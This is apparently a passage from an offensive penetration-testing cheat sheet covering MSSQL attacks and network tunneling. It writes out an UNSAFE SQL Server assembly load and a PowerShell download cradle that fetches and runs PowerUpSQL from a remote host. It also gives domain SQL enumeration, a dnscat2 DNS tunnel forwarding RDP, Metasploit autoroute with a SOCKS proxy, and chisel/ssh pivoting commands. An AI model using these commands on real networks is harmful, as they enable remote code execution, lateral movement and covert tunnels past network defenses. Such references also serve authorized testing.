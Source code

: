 Custom assembly from hex

```sql
CREATE ASSEMBLY my_assembly FROM 0x4D7A..... WITH PERMISSION_SET = UNSAFE;
```

Load PowerUpSQL

```powershell
(new-object system.net.webclient).downloadstring('http://192.168.1.1/PowerUpSQL.ps1') | IEX
```

Get all accessible domain MSSQL’s

```plaintext
Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10
```

Enum database users

Audit SQL

---

## Tunneling

---

DNSCAT

```plaintext
dnscat2-server tunnel.com
dnscat2-v0.07-client-win32.exe tunnel.com
listen 127.0.0.1:3389 172.16.51.21:3389
```

MSF autoroute

```shell
use multi/manage/autoroute
set session 1
exploit
use auxiliary/server/socks_proxy
set version 4a
set srvhost 127.0.0.1
exploit -j

bash -c 'echo "socks4 127.0.0.1 1080" >> /etc/proxychains.conf'

proxychains rdesktop 192.168.1.1
```

Chisel

```plaintext
./chisel server -p 8080 --socks5 << server
ssh -N -D 0.0.0.0:1080 localhost << server (tunnel)
chisel.exe client 192.168.1.1:8080 socks << client
```

---
